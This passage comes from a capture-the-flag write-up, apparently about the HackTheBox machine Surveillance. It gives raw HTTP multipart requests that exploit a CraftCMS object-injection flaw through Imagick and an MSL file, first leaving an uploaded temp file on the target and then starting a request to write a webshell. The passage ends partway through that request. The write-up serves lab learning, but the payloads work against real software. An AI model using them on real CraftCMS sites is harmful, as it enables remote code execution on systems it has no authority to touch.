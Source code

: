     --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="action"
    
    conditions/render
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="test[userCondition]"
    
    craft\elements\conditions\users\UserCondition
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="config"
    
    {"name":"test[userCondition]","as xyz":{"class":"imagick","__construct()":{"files":"msl:/etc/hostname"}}}
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="fakefile"; filename="0xdf.txt"
    Content-Type: text/plain
    
    This is a test
    --0xdf0xdf0xdf0xdf
    

This will crash ImageMagick and prevent PHP from cleaning up the files.

I don’t have a good way to see this on target. The cleanest thing to do would
be to run a copy of CraftCMS locally. From a Beyond Root point of view, I can
see this creates the file:

    
    
    root@surveillance:/tmp# ls php*
    php0CZhKw
    root@surveillance:/tmp# cat php0CZhKw 
    This is a test
    

#### Write WebShell

Now that I can upload, I’ll use the same trick as Intentions to write a
webshell using an MSL file:

    
    
    POST /index.php HTTP/1.1
    Host: surveillance.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
    Content-Type: multipart/form-data; boundary=0xdf0xdf0xdf0xdf
    Content-Length: 760
    
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="action"
    
    conditions/render
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="test[userCondition]"
    
    craft\elements\conditions\users\UserCondition
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="config"
    
    {"name":"test[userCondition]","as xyz":{"class":"imagick","__construct()":{"files":"msl:/etc/hostname"}}}
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="fakefile"; filename="0xdf.txt"
    Content-Type: application/octet-stream
    